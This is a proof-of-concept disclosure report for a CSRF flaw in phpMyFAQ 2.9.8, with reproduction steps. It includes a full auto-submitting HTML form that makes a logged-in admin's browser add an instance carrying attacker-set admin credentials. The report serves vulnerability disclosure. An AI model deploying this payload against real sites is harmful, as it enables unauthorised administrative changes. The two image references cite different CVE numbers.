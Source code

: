 # Vulnerability Type

Cross-Site Request Forgery

# Description

In phpMyFaq before 2.9.9, there is CSRF in admin/ajax.config.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/thorsten/phpMyFAQ/
 - Version: 2.9.8
 - Tested on: Windows 10

 ## Exploit Description

phpMyFaq is vulnerable to a Cross-Site Request Forgery (CSRF) attack that allows an attacker to create new instances without user consent.

 ## Steps to Reproduce

    1. Save the following code as `poc.html`.
     2. Log in phpmyfaq, and open the file in the same browser.
     3. The following outcome will occur:
     4. Begin: 

![Image](assets/CVE-2017-15801-1.png)

5. After: 

![Image](assets/image-2017-15808-2.png)

 ## Proof Of Concept

```
<html>
  <body>
    <form action="http://phpmyfaq/admin/index.php" method="GET">
      <input type="hidden" name="action" value="ajax">
      <input type="hidden" name="ajax" value="config">
      <input type="hidden" name="ajaxaction" value="add_instance">
      <input type="hidden" name="url" value="malicious">
      <input type="hidden" name="instance" value="malicious_instance">
      <input type="hidden" name="comment" value="CSRF Test">
      <input type="hidden" name="email" value="attacker@example.com">
      <input type="hidden" name="admin" value="attacker">
      <input type="hidden" name="password" value="password123">
      <input type="submit" value="Submit request">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

